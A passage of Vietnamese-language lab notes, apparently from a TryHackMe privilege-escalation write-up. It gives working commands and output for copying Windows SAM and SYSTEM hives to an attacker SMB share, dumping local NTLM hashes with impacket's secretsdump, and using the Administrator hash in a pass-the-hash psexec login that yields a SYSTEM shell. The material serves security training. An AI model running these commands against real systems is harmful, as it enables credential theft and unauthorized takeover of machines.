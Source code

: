Bây giờ có thể sao chép các tệp này vào máy tấn công bằng SMB hoặc bất kỳ phương pháp khả dụng nào khác. Đối với SMB, có thể sử dụng smbserver.py của impacket để khởi động một máy chủ SMB đơn giản với mạng chia sẻ:

    user@attackerpc$ mkdir share
    user@attackerpc$ python3.9 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share

Điều này sẽ tạo một chia sẻ có tên public trỏ đến thư mục share, yêu cầu tên người dùng và mật khẩu của phiên windows hiện tại. 

![img](https://github.com/DucThinh47/TryHackMe/blob/main/Jr_Penetration_Tester/Privilege-Escalation/images/image221.png?raw=true)

Sử dụng impacket để truy xuất mật khẩu băm của người dùng:

    user@attackerpc$ python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
    Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

    [*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
    [*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

Cuối cùng có thể sử dụng hàm băm của Quản trị viên để thực hiện cuộc tấn công Pass-the-Hash và giành quyền truy cập vào máy mục tiêu với các đặc quyền SYSTEM:

    user@attackerpc$ python3.9 /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94 administrator@10.10.250.219
    Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

    [*] Requesting shares on 10.10.175.90.....
    [*] Found writable share ADMIN$
    [*] Uploading file nfhtabqO.exe
    [*] Opening SVCManager on 10.10.175.90.....
    [*] Creating service RoLE on 10.10.175.90.....
    [*] Starting service RoLE.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 10.0.17763.1821]
    (c) 2018 Microsoft Corporation. All rights reserved.

    C:\Windows\system32> whoami
    nt authority\system

**SeTakeOwnership**

Đặc quyền SeTakeOwnership cho phép người dùng nắm quyền sở hữu bất kỳ đối tượng nào trên hệ thống, bao gồm các tệp và khóa đăng ký, mở ra nhiều khả năng cho kẻ tấn công nâng cao đặc quyền

RUn as administrator với cmd.

kiểm tra các đặc quyền bằng lệnh sau:

![img](https://github.com/DucThinh47/TryHackMe/blob/main/Jr_Penetration_Tester/Privilege-Escalation/images/image222.png?raw=true)
